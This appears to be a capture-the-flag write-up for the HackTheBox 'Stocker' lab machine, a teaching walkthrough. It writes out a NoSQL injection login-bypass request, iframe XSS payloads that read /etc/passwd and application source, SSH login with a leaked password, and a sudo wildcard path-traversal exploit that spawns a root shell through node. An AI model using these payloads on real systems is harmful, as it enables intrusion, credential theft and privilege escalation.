 ```yaml
---
title: HackTheBox - Stocker
author: yufong
categories: [HackTheBox, HackTheBox - Linux]
date: 2023-06-10
tags: [xss, lfi, nosqli, wildcard, node, pdf]
img_path: /_posts/Writeups/HackTheBox/Linux/Stocker/images/
image:
  path: /_posts/Writeups/HackTheBox/Linux/Stocker/images/Pasted%20image%2020230625002217.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```



# Overview 
Machine begins with a subdomain enumeration, discovering `dev.stocker.htb`, where it is susceptible to a `NoSQLi` login bypass. Exploiting this vulnerability granted access to the cart checkout page, which was found to be vulnerable to a cross-site scripting to local file inclusion (XSS2LFI) attack. By leveraging the XSS vulnerability, it was possible to perform local file inclusion (LFI) and gain access to the `index.js` file, which contained credentials for the user `angoose`.

Next, it was observed that the user `angoose` possessed the privilege to execute the command `sudo /usr/bin/node /usr/local/scripts/*.js`. The usage of the wildcard (`*`) in the command created a vulnerability that allowed for directory traversal, enabling the execution of a malicious payload. privilege escalating us to `root`.


---

| Column       | Details      |
| ------------ | ------------ |
| Box Name     | Stocker      |
| IP           | 10.10.11.196 |
| Points       | 20           |
| Difficulty   | Easy         |
| Creator      |          [JoshSH](https://www.hackthebox.com/home/users/profile/269501)     |
| Release Date | 14 Jan 2023             |


# Recon

## TCP/80 (HTTP)
- FFUF
	- Could not enumerate any interesting files
- Enumerate for subdomains
	```
	┌──(root💀kali)-[~/htb/stocker]
	└─# ffuf -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fc 301
	
	dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 249ms]
	```
	> `dev.stocker.htb` - add it to your `/etc/hosts`
	{: .prompt-info}

# Initial Foothold

## TCP/80 (HTTP) - NoSQLi
1.  Proceed to `http://dev.stocker.htb`, found a login page
2. With `webappalyzer` found that page is running on `node.js`
	![]({{ page.img_path }}Pasted%20image%2020230610175108.png)
	> Since it is `node.js` , we can try NoSQLi
	{: .prompt-info}
3. NoSQLi worked
	```
	# Payload
	POST /login HTTP/1.0
	Host: dev.stocker.htb
	User-Agent: Mozilla/5.0 (Hydra Proxy)
	Content-Length: 59
	Content-Type: application/json
	Cookie: connect.sid=s%3AqAR-6lAK22yFu_5EbRGEq3zlLw0ch7dB.fQcRonylfrEFjjkKqs6H6wQgHouF%2FBB7btxpEfskgbA
	Connection: close
	
	{"username": {"$ne": null}, "password": {"$ne": null} }
	```
	> - Change content type to `application/json`
	{: .prompt-info}
4. Demo - NoSQLi 
	![](uLV6UuMCM9.gif)
5. Web directory
	![]({{ page.img_path }}Pasted%20image%2020230610233351.png)
	>`/var/www/dev/`
	{: .prompt-info}

## TCP/80 - XSS2LFI
1. Add items to cart and checkout, intercept w/ `burp`
	![]({{ page.img_path }}Pasted%20image%2020230610232347.png)
	> There are a lot of parameters that could be vulnerable, we'll have to try them one by one
	{: .prompt-info}
2. Download the purchase order to look at the metadata w/ `exiftool`
	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# exiftool asdf.pdf
	ExifTool Version Number         : 12.44
	File Name                       : asdf.pdf
	Directory                       : .
	File Size                       : 41 kB
	File Modification Date/Time     : 2023:06:10 23:10:55+08:00
	File Access Date/Time           : 2023:06:10 23:10:54+08:00
	File Inode Change Date/Time     : 2023:06:10 23:11:06+08:00
	File Permissions                : -rw-r--r--
	File Type                       : PDF
	File Type Extension             : pdf
	MIME Type                       : application/pdf
	PDF Version                     : 1.4
	Linearized                      : No
	Page Count                      : 1
	Tagged PDF                      : Yes
	Creator                         : Chromium
	Producer                        : Skia/PDF m108
	Create Date                     : 2023:06:10 15:05:00+00:00
	Modify Date                     : 2023:06:10 15:05:00+00:00
	```
	>`Skia/PDF m108` - Google it
	{: .prompt-info}
3. `title` parameter is susceptible to `XSS`, allowing us to do LFI
	```
	# Payload
	"title":"<iframe src=/etc/passwd>",
	```
	![]({{ page.img_path }}Pasted%20image%2020230610233121.png)

4. View `index.js` (Because web running on `node.js`)
	```
	# Payload
	"title":"<iframe width=1000 height=1000 src=/var/www/dev/index.js></iframe>"
	```
	![]({{ page.img_path }}Pasted%20image%2020230610234140.png)
	>`dev:IHeardPassphrasesArePrettySecure`
	{: .prompt-info}


## TCP/22 (SSH) 
1. Since `dev` user does not exist, `ssh` into user `angoose`
	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
	Last login: Sat Jun 10 00:32:45 2023 from 10.10.14.2
	angoose@stocker:~$ id;whoami
	uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
	angoose
	angoose@stock
	```

# Privilege Escalation

## Root - Wildcard + Node Sudo
1. User `angoose` sudo access
	```
	angoose@stocker:/var/www/dev$ sudo -l
	Matching Defaults entries for angoose on stocker:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User angoose may run the following commands on stocker:
	    (ALL) /usr/bin/node /usr/local/scripts/*.js
	```
	> - The usage of `*` makes this sudo privilege vulnerable, we are able to do directory traversal and point `/usr/bin/node` to any file we want 
	> - `/usr/local/scripts/../../../../../../tmp/something.js` works 
	{: .prompt-info}
2. Create payload `/tmp/exploit.js`
	```
	angoose@stocker:/var/www/dev$ nano /tmp/exploit.js
	require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
	angoose@stocker:/var/www/dev$ chmod +x /tmp/exploit.js
	```
3. Execute our exploit w/ `/usr/bin/node` to `root`
	```
	# Payload
	sudo /usr/bin/node /usr/local/scripts/../../../../../../../tmp/exploit.js
	```

4. Demo - `Node` sudo + wildcard
	![](WVtAYUrw1W.gif)
